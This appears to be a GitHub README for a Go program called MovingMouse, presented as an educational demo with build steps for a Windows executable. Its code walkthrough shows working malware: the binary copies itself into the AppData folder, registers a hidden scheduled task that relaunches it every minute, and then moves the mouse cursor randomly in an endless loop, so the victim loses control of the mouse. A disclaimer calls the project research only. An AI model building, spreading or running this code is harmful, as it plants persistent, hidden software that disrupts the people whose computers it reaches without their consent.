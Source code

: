 

# Autonomous System Interaction Demo

*A Go-based exploration of persistence and dynamic system interaction* 

---

## Getting Started

### 1. Install Go

Download and install Go from the official website:
👉 [https://go.dev/dl](https://go.dev/dl)

After installation, verify by running:

```bash
go version
```

---

### 2. Clone the Repository

```bash
git clone https://github.com/3582-490/MovingMouse.git
cd MovingMouse
```

---

### 3. Build the Project for Windows

To compile the project as a Windows executable:

```bash
go build -o app.exe main.go
```

This will generate a file named **`app.exe`** in the current directory 

---

## Overview

This project is a lightweight **Go-based demonstration** that showcases techniques related to:

1. **File relocation into user data directories** for persistence 
2. **Automated relaunch scheduling** through the Windows task planner 
3. **Continuous dynamic interface activity** generated programmatically 

The implementation is purely for **educational and research purposes**, highlighting how persistence mechanisms and interactive system behaviors can be combined in a single application 

---

## Code Walkthrough

### 1 Relocating the Executable 

```go
exePath, _ := os.Executable()
appData := os.Getenv("APPDATA")
outPath := filepath.Join(appData, filepath.Base(exePath))

input, _ := os.ReadFile(exePath)
os.WriteFile(outPath, input, 0644)
```

* Detects its own binary location 
* Creates a duplicate inside the **AppData** directory, a common location for application support files 

---

### 2 Establishing Scheduled Relaunch 

```go
taskName := filepath.Base(exePath)
taskName = taskName[:len(taskName)-len(filepath.Ext(taskName))]
cmd := exec.Command("schtasks.exe", "/create", "/f", "/sc", "minute", "/mo", "1", "/tn", taskName, "/tr", outPath)
cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd.Run()
```

* Registers a scheduled task via Windows’ built-in **Task Scheduler** 
* Configured to trigger regularly, ensuring **persistence even after system restarts** 

---

### 3 Linking with System Libraries 

```go
user32 := windows.NewLazyDLL("user32.dll")
setCursorPos := user32.NewProc("SetCursorPos")
getSystemMetrics := user32.NewProc("GetSystemMetrics")

screenWidth, _, _ := getSystemMetrics.Call(0)
screenHeight, _, _ := getSystemMetrics.Call(1)
```

* Dynamically loads functions from **user32.dll**.
* Retrieves screen dimensions to define boundaries for interactive behavior 

---

### 4 Generating Continuous Activity 

```go
rand.Seed(time.Now().UnixNano())
for {
    x := rand.Intn(int(screenWidth))
    y := rand.Intn(int(screenHeight))
    setCursorPos.Call(uintptr(x), uintptr(y))
    time.Sleep(100 * time.Millisecond)
}
```

* Seeds a random generator with the current timestamp 
* Continuously produces new coordinate pairs 
* Sends instructions to reposition a system control element, creating **constant dynamic activity** on the interface 

---

## Disclaimer  

This repository is provided **strictly for research and educational demonstration** 
I (3582-490) am **not responsible** for any misuse of this project 
Running or modifying this program is entirely at the user’s own risk.
